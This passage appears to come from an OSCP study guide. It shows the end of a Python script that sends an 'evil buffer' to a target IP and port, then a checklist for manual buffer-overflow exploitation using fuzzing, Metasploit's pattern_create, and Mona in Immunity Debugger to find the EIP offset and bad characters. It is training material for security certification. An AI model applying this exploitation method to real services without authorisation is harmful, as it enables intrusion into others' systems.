 try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
{% endhighlight %}

[Return to Table of Contents](#toc)

***

<div style="page-break-after: always; visibility: hidden"> \pagebreak </div>

## <a name=worksheet></a>OSCP Friendly Manual BOF Exploit Worksheet

- <input type="checkbox" unchecked> Step 1 - Open an RDP session to the target machine, if applicable then run the vulnerable application and fuzz to find the general range of the EIP register offset at the point of the application crashing.

	`python3 fuzzer.py`
	
	<mark>Crashed at <input type="number" id="estoffset" name="estoffset" value ="
"/> bytes. <br> Add 400 to the value entered above: <input type="number" id="estoffsetplus" name="estoffsetplus" value ="
"/><br>(Substitute for XXXX in code segments below)</mark>

- <input type="checkbox" unchecked> Step 2 - Create a pattern that’s 400 characters over the estimated offset via metasploit.

	`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l XXXX`

- <input type="checkbox" unchecked> Step 3 - Modify exploit script with the target ip and port, pattern as the payload, offset = 0, retn = “”, padding = “”, postfix = “”.

- <input type="checkbox" unchecked> Step 4 - Open Immunity Debugger (running as admin) and load the vulnerable application, then use Mona to find the exact EIP offset.

	`!mona findmsp -distance XXXX`
	
	<mark>Exact Offset = <input type="number" id="offset" name="offset" value ="
"/> <br>(Substitute for PPPP in code segments below)</mark>

- <input type="checkbox" unchecked> Step 5 - Verify the offset value by updating and running exploit.py with no payload, the found offset value, and a return address string (“e.g. BCDE”) to check for EIP overwrite.

	`python3 exploit.py`

- <input type="checkbox" unchecked> Step 6 - Use Mona to generate a bad character set, excluding \x00, update exploit.py then run it, noting the ESP register value.

	`!mona config -set workingfolder c:\mona\%p`

	`!mona bytearray -b "\x00"`
